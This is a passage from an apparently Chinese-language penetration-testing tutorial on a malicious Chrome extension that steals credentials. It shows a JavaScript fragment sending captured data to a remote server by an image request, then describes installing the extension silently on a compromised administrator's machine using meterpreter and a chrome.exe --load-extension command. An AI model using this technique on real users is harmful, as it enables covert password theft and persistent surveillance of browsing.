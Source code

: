 ```
        new Image().src = server+gate+data;
        //console.log("email="+email+"&password="+password)
    }
    function wooyun()
    {
        document.getElementById('subbtn').onmouseover = email;
    }    
    });

```

![Alt text](http://drops.javaweb.org/uploads/images/9e27343f2e0ce5c690e4060601479959452e3b4d.jpg)

> 修改payload可针对性获取某网站账号密码信息。

Payload就介绍这么多了，熟悉前端的童鞋一定可以创造更多花式玩儿法。

0x03 When to Use
================

* * *

或许小伙伴们会问，弄这个有什么用，我又不需要装这个插件抓自己的密码。当然，这个肯定不是用来搞自己的。渗透测试过程中，有没有碰到过看到管理员经常使用Chrome浏览器，而我们却没办法获取到其常用密码呢？（管理员并没有使用浏览器记住密码的功能）。这个时候，除了给系统装键盘记录器，我们还可以为其浏览器装我们编写的插件。而这个插件，就可以用来搜集各种敏感信息，而且，针对的是浏览器访问的所有网站！

除此之外，我发现chrome是可以通过命令行来安装插件的，来设想一个场景，我们使用某个漏洞，或者社会工程学获取了小明的计算机控制权，现在已经有了一个meterpreter会话如下：

![Alt text](http://drops.javaweb.org/uploads/images/ef10486f006e0a901f8ae08fa4233c76d5beca19.jpg)

执行如下命令：

```
meterpreter > run post/windows/gather/enum_chrome

```

![Alt text](http://drops.javaweb.org/uploads/images/7be12b3f38e23680f10eb7af3a052de12286b61c.jpg)

可以看到目标系统是安装了chrome浏览器的。

上传插件目录demo到`e:\demo\`目录，由于meterpreter的upload只能上传文件，不能上传文件夹，所以这里需要把demo文件夹打包压缩以后再上传，之后再通过目标系统的解压软件或者自己上传的unrar.exe进行解压，具体操作如下图:

![Alt text](http://drops.javaweb.org/uploads/images/1c2596b2c86e65b20ea08fa96875b7d8057f867b.jpg)

使用如下命令寻找安装的解压软件：

![Alt text](http://drops.javaweb.org/uploads/images/967636228fe203032a7a60f0cb2984669c524a2b.jpg)

之后使用如下命令进行解压并删除压缩包，具体操作如下图：

![Alt text](http://drops.javaweb.org/uploads/images/f03ec5a5a12825818503a8554f28ee3c5f2dabf0.jpg)

之后为chrome添加插件，使用如下命令：

```
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"  --load-extension="F:\demo\demo" --silent-launch 

```
